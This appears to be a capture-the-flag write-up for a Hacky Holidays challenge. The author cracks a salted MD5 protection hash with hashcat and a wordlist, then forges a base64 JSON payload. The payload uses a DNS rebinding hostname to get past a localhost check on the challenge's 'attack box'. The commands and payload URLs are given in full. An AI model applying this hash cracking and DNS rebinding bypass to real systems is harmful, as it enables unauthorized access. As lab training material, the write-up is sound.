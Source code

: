 ```

# 12 Grinch HashingDns

Now Grinch got superfrustrated and decided to launch his final DDOS attack to target he made a script that would launch an attack to ip he restricted it with a check if ip resolves first time as 127.0.0.1 then attack woul be aborted

We began on https://hackyholidays.h1ctf.com/attack-box here we can see three ip and three urls so decoding 1st ip we can see 

```
https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiIyMDMuMC4xMTMuMzMiLCJoYXNoIjoiNWYyOTQwZDY1Y2E0MTQwY2MxOGQwODc4YmMzOTg5NTUifQ==

https://hackyholidays.h1ctf.com/attack-box/launch?payload={"target":"203.0.113.33","hash":"5f2940d65ca4140cc18d0878bc398955"}
```

each payload has ip and hash base64 encoded together if we manually try to change ip or change hashes the server would respond with
``` Invalid Protection Hash```  so here needed to generate hash for an ip to do so we needed to now hash password that is used server side I tried using hashcat with  hash:salt format to get the password here ip is our salt
```
5f2940d65ca4140cc18d0878bc398955:203.0.113.33
2814f9c7311a82f1b822585039f62607:203.0.113.53
5aa9b5a497e3918c0e1900b2a2228c38:203.0.113.213
```
this gave us 
{F1131537} mrgrinch463 as password  now if we generate a hash and try IP such as 127.0.0.1 it would stop the attack detecting it as localhost here DNS rebinding will help us at first we need our IP to resolve to any ip other than localhost and then 127.0.0.1 here we use https://lock.cmpxchg8b.com/rebinder.html and enter IP1 as 192.168.0.1 and IP2 as 127.0.0.1 now we generate our hash using [Md5salthash](http://md5.my-addr.com/md5_salted_hash-md5_salt_hash_generator_tool.php) and then we encode the IP and send the payload this gives us back a attack URL upon loading after 2nd resolve this attacks 127.0.0.1 and thus we get our final flag & burn down whole grinch system and save the holidays

## Steps:
1. Using hashcat crack the password with the command
``` hashcat -a 0 -m 10 hash.txt ../../tools/payloads/wordlists/wordlistsl/rockyou.txt --show```
2.  Now we get password as ``` mrgrinch463``` 
3. Now we go to https://lock.cmpxchg8b.com/rebinder.html and generate a url for  dns rebinding 
{F1131540}
we get c0a80001.7f000001.rbndr.us 
4. Now to generate our hash we visit http://md5.my-addr.com/md5_salted_hash-md5_salt_hash_generator_tool.php and enter our url and password which generates us a hash of 60ff4921c1c7a927c06140d0a57c9d38 now we base64 encode this as

```
{"target":"c0a80001.7f000001.rbndr.us","hash":"60ff4921c1c7a927c06140d0a57c9d38"}
eyJ0YXJnZXQiOiJjMGE4MDAwMS43ZjAwMDAwMS5yYm5kci51cyIsImhhc2giOiI2MGZmNDkyMWMxYzdhOTI3YzA2MTQwZDBhNTdjOWQzOCJ9
```

5.Now we send this as payload 
```
https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiJjMGE4MDAwMS43ZjAwMDAwMS5yYm5kci51cyIsImhhc2giOiI2MGZmNDkyMWMxYzdhOTI3YzA2MTQwZDBhNTdjOWQzOCJ9
```
which redirects us to 
{F1131543}  https://hackyholidays.h1ctf.com/attack-box/launch/d265d7796749f0d1ae59115fc9fef7a2
6.Upon  visiting the url we sucessfullly launch the attack against 127.0.0.1 and destroy grinch networks 
{F1131544}

{F1131545}

```